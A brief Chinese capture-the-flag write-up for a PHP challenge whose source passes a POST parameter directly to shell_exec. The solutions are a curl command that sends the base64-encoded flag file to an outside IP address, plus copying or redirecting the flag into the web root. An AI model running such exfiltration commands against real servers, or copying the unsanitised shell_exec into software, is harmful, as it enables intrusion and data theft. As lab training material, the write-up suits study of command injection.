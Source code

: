 ### 你听不到我的声音

> 题目：我要执行 shell 指令啦! 诶? 他的输出是什么? 为什么不给我?

```php
<?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']);
```

#### 反弹shell：

curl外带

```
cmd=curl http://8.134.206.105:5432/`cat /flag | base64`
```

![image-20240920165845948](https://gitee.com/bx33661/image/raw/master/path/image-20240920165845948.png)

#### cp

```
cmd=cp /flag /var/www/html/1.txt
```

然后访问

```
http://gz.imxbt.cn:20095/1.txt
```



#### 写入

```
cmd=cat /flag > 1.txt
```



